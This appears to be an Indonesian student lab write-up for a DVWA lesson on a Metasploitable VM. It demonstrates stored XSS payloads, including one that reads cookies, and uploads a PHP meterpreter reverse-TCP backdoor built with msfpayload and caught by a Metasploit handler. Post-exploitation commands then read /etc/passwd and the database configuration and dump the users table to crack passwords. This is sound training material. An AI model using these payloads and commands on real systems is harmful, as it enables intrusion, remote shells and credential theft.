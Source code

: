 # DVWA | Lesson 9
## Konfigurasi

###{ Upload PHP Backdoor Payload }

pada lesson 9, kami menggunakan metasploid dan backtrack.

- pertama-tama agar backtrack dan metasploit mendapat IP, buka vm -> klik kanan -> setting -> network -> pilih bridge adapter

![alt text](./backtrack.PNG)
![alt text](./metasploit.PNG)

Alamat target DVWA (metasploitable) 
`http://10.151.34.170`

Alamat penyerang (backtrack)
`http://10.151.34.160`


## Skenario

- start metasploit dan backtrack yang sudah dikonfigurasi
- masuk ke folder :
    `/var/www/dvwa/vulnerabilities/xss_s`
![alt text](./1.PNG)
- edit file index.php
    `nano index.php`
![alt text](./2.PNG)
- carilah kata mtxMessages
- caranya dengan ctrl+w, masukan keyword mtxMessages
![alt text](./3.PNG)
- ganti maxlength menjadi 250
![alt text](./4.PNG)
- buka preference pada bactrack
![alt text](./5.PNG)
- klik content
- uncheck block pop up windows
- klik close
![alt text](./6.PNG)
- login dvwa pada firefox backtrack
- buka 10.151.34.170/dvwa/login.php
![alt text](./7.PNG)
- seting dvwa security low
- klik submit
![alt text](./8.PNG)
- buka halaman xss stored
- masukkan script :
    `<script>alert("tesss")</script>`
- klik submit
![alt text](./9.PNG)
- berhasil
![alt text](./10.PNG)
- masuk ke halaman setup
- klik create database
![alt text](./11.PNG)
- masuk ke halaman xss stored
![alt text](./12.PNG)
 - masukkan message 
    `<iframe src = "www.its.ac.id"></iframe>`
![alt text](./13.PNG)
- berhasil
![alt text](./14.PNG)
- kembali masuk ke setup
- create database
![alt text](./15.PNG)
- masuk ke halaman xss stored
- masukkan script 
    `<script>alert(document.cookie)</script>`
![alt text](./16.PNG)
- berhasil
![alt text](./17.PNG)
- buka terminal
- masukkan command berikut :

    `mkdir -p /root/backdoor`

    `cd /root/backdoor`
    
    `msfpayload php/meterpreter/reverse_tcp` 
    
    `LHOST=10.151.34.160 LPORT=4444 R > FORUM_BUG.php`
    
    `ls -l FORUM_BUG.php`

![alt text](./18.PNG)
- buka nano FORUM_BUG.php
- hapus tanda # yang ada
- simpan dengan ctr+x
![alt text](./19.PNG)
- upload file FORUM_BUG.php
![alt text](./20.PNG)
- buka terminal
- buka msfconsole
![alt text](./21.PNG)

    `use exploit/multi/handler`

   `set PAYLOAD php/meterpreter/reverse_tcp`
    
    `set LHOST 10.151.34.160`
    
    `set LPORT 4444`
    
    `exploit`

![alt text](./22.PNG)
- masuk ke dvwa pada backtrack firefox
- masuk ke halaman setup
![alt text](./23.PNG)
- ketik script :    `<script>window.location="http://192.168.1.106/dvwa/hackable/uploads/FORUM_BUG.php" </script>`
![alt text](./24.PNG)
- hasil
![alt text](./25.PNG)
- koneksi sudah stabil
![alt text](./26.PNG)
- melakukan shell
![alt text](./27.PNG)
- whoami 
    dilakukan untuk menampilkan nama user, disini ada www-data
- grep apache /etc/passwd      
- find /var/www/* -print | grep config
       
![alt text](./28.PNG)
- grep "db_" /var/www/dvwa/config/config.inc.php
- echo "use dvwa; show tables;" | mysql -uroot 
- echo "use dvwa; desc users;" | mysql -uroot 
- echo "select user, from dvwa.users;" | mysql -uroot
![alt text](./29.PNG)
![alt text](./30.PNG)
![alt text](./31.PNG)





## Hasil
kita bisa mengcrack password 
![alt text](./32.PNG)